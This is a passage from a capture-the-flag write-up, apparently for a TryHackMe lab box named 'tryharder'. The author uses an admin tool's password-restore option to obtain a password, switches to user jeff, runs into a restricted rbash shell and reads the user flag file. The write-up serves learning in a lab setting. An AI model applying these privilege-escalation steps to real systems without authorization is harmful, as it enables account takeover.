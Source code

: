 ```
backupmgr@tryharder:/opt/systools$ ./systool
./systool
Welcome to Jeffs System Administration tool.
This is still a very beta version and some things are not implemented yet.
Please Select an option from below.
1 ) View process information.
2 ) Restore your password.
3 ) Exit 
Chose your option: 2
2


Your Password is: ************************


1 ) View process information.
2 ) Restore your password.
3 ) Exit 
```
Finally I was able to elevate my privileges and become jeff on the target system.
```
backupmgr@tryharder:/opt/systools$ su jeff
Password:
jeff@tryharder:/opt/systools$ whoami
jeff
```
It uses a shell called rbash and I'm not able to use the cd command to move around, but I have no problem using the ll command. In fact, I could see the files in jeff's home and read the user.txt file.

```
jeff@tryharder:/opt/systools$ cd ..
rbash: cd: restricted
jeff@tryharder:/opt/systools$ ll /home/jeff
total 40
drwx------ 5 jeff jeff 4096 May 18  2020 ./
drwxr-xr-x 4 root root 4096 May 10  2020 ../
lrwxrwxrwx 1 root root    9 May 10  2020 .bash_history -> /dev/null
-rw-r--r-- 1 jeff jeff  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 jeff jeff 3771 Apr  4  2018 .bashrc
drwxr-x--x 2 root root 4096 May 11  2020 .bin/
drwx------ 2 jeff jeff 4096 May  9  2020 .cache/
drwx------ 3 jeff jeff 4096 May  9  2020 .gnupg/
-rw-r--r-- 1 root root  180 May 14  2020 .profile
-rw-r--r-- 1 root root   75 May 18  2020 .selected_editor
-rw-r----- 1 jeff jeff   36 May 11  2020 user.txt
jeff@tryharder:/opt/systools$ cat /home/jeff/user.txt
THM{************************************}
```
I tried putting the first flag on tryhackme, but it's not the right flag. At first I was strange, then I read the message between the brackets well and I understood.
I took that string and hash it using cyberchef.

